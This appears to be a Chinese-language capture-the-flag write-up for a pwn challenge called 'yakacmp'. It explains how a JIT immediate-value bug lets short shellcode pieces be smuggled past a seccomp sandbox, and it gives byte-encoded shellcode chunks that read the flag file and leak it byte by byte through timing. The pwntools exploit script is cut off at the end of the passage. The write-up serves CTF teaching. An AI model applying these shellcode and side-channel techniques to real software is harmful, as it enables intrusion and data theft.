```python
send_code(make_mov(b'r2', b'r3'))
gdb.attach(io)
time.sleep(3)
send_code(make_mov(b'r2', str(0x5212345678).encode()))
io.interactive()
```

![](10.png)
可以看到，这里确实存在问题，有一个能够容纳最多4字节shellcode的空间。问题就出在最后一条语句中的赋值立即数。这里的``push``只能压入一个``DWORD``，但代码中却认为能压入一个``QWORD``，这就导致立即数的高4字节变成了独立的指令，且能够由我们完全控制。由于本题开启了沙箱，因此通过``syscall``调用``execve``是不行了，不过我们可以进行文件的相关操作。现在，就让我们来思考一下应该如何构造shellcode。

通过seccomp-tools可以获取到本题的沙箱：
![](11.png)
可见这里只允许我们进行打开和读操作，不能写。那我们应该如何获取到flag的值呢？阅读了大佬的exp之后，我发现这种利用方式和Web中的SQL时间盲注有几分相似之处。我们不能直接将flag写到控制台，但是我们确实能够获取到flag的值。记得时间盲注的原理就是利用字符比较函数逐字节猜解表名和字段名，这里也是同样的道理：对内存中的flag逐字节猜解。如果相等，则会阻塞一段时间，如果不等，则会直接退出报``EOFerror``。

参考现有的shellcode，我们需要将文件名``flag``或``flag.txt``压入栈中，然后通过``mov``指令将``rsp``的值赋值给其他寄存器。当然程序中并没有实现与``rsp``有关的指令，这就需要用到上面的4字节自由区域了。实际上如果我们跳转的地址合理，正常的``mov``指令中的8字节立即数也可以成为我们写入shellcode的地方，毕竟4个字节的空间要是想要组成一个完整的shellcode，还需要考虑跳转指令张勇的2字节，剩下的2字节能写入的shellcode实在有限，因此还需要合理利用``mov``指令的8字节立即数。考虑到上面提到的逐字节猜解，我们的shellcode需要实现的功能有：
1. 打开flag文件
2. 读取flag文件到内存
3. 每一次循环猜解一个字符，如果猜解正确就让其阻塞或陷入死循环，如果猜解错误就直接退出

下面我们来尝试实现shellcode。
注意：任意4字节代码能够生成必须前面要有连续的至少10个``mov``语句。

首先是打开flag文件。笔者采用flag这个文件名进行测试。
1. 利用``mov``指令将``"flag"``字符串写入0x23330000中：``movabs rax, 0x67616C66 ('flag')``
2. 写入9个``mov``指令：
	(1) 写入``jmp``后执行的第九段shellcode：``mov rax, 0x72ebxxb1188a (mov bl, byte ptr [rax] ; mov cl, xx ; jmp 114)``
	(2) 写入``jmp``后执行的第八段shellcode：``mov rax, 0xf0ebdb314858 (pop rax ; xor rbx, rbx ;  ; jmp -16)``
	(3) 写入``jmp``后执行的第七段shellcode：``mov rax, 0xefeb23330fxx68 (push 0x23330F00 + i ; jmp -17)``
	(4) 写入``jmp``后执行的第六段shellcode：``mov rax, 0xefeb050f58006a (push 0 ; pop rax ; syscall ; jmp -17)``
	(5) 写入``jmp``后执行的第五段shellcode：``mov rax, 0xf0eb5a406a5e (pop rsi ; push 0x40 ; pop rdx ; jmp -16)``
	(6) 写入``jmp``后执行的第四段shellcode：``mov rax, 0xefeb23330f0068 (push 0x23330F00 ; jmp -17)``
	(7) 写入``jmp``后执行的第三段shellcode：``mov rax, 0xefeb5f036a050f (syscall ; push 3 ; pop rdi ; jmp -17)``
	(8) 写入``jmp``后执行的第二段shellcode：``mov rax, 0xefeb585f5e006a (push 0 ; pop rsi ; pop rdi ; pop rax ; jmp -17)``
	(9) 写入``jmp``后执行的第一段shellcode：``mov rax, 0xeeeb2333000268 (push 0x23330002 ; jmp -17)``
3. 写入``mov``指令，在4字节空间中写入跳转指令跳转到前面一条``mov``指令的立即数中，在此之前顺便``push``好``rax``的值：``//push// 0xF1EB00000002 (push 2 ; jmp -15)``
4. 写入``jmp``后执行的第十段shellcode：``mov rax, 0xfeeb1875cb38 (cmp bl, cl ; jne 23 ; jmp -2[dead loop])``
5. 写入``jmp``后执行的第十一段shellcode：``mov rax ; 0xc3 (ret)``

上面的代码中有两处``xx``，第一处表示猜解的字符，第二处表示猜解的是哪个下标的字符。由此我们可以写出本题的exp：

```python
import time

from pwn import *
context(arch='amd64')
flag = ''

elf = ELF('./yakacmp')
io = process('./yakacmp')

def make_add(reg1, reg2):
    return b'add ' + reg1 + b',' + reg2

def make_sub(reg1, reg2):
    return b'sub ' + reg1 + b',' + reg2
```